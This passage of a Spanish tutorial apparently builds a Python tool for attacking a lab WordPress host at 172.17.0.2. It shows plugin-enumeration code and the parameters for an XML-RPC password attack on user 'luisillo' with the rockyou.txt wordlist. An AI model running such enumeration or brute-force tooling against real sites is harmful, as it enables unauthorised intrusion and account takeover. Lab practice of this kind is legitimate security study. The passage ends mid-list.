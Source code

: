 
### **Paso 5: Implementar el método `enumerar_plugins`**

Ahora implementamos el método para enumerar plugins, basado en la función `plugin_enumeration()`.

1. **Definición del método**:
   - Creamos el método `enumerar_plugins`:
     ```python
     def enumerar_plugins(self):
     ```

2. **Bucle sobre los plugins**:
   - Iteramos sobre la lista de plugins almacenada en `self.listado_plugins`:
     ```python
     for plugin in self.listado_plugins:
     ```

3. **Construcción de la URL**:
   - Formamos la URL para el archivo `readme.txt` de cada plugin:
     ```python
     url = f"{self.url_plugins}{plugin}/readme.txt"
     ```

4. **Envío de la petición**:
   - Hacemos una petición GET a la URL:
     ```python
     response = requests.get(url)
     ```

5. **Verificación de la respuesta**:
   - Si el código de estado es `200`, el plugin existe:
     ```python
     if response.status_code == 200:
         print(f"[+] Plugin encontrado: {plugin}")
     ```

El método completo queda así:
```python
def enumerar_plugins(self):
    for plugin in self.listado_plugins:
        url = f"{self.url_plugins}{plugin}/readme.txt"
        response = requests.get(url)
        if response.status_code == 200:
            print(f"[+] Plugin encontrado: {plugin}")
```

---

### **Paso 6: Código principal (instanciación y selección de tarea)**

Fuera de la clase, creamos una instancia de `Herramienta` y manejamos la interacción con el usuario.

1. **Definición de parámetros**:
   - Definimos los valores para los atributos de la clase:
     ```python
     url_xmlrpc = 'http://172.17.0.2/wordpress/xmlrpc.php'
     usuario = 'luisillo'
     diccionario = 'rockyou.txt'
     url_plugins = 'http://172.17.0.2/wordpress/wp-content/plugins/'
     listado_plugins = [
         "jetpack",
         "akismet",
         "contact-form-7",
         "woocommerce",
         "wordfence",
         "yoast-seo",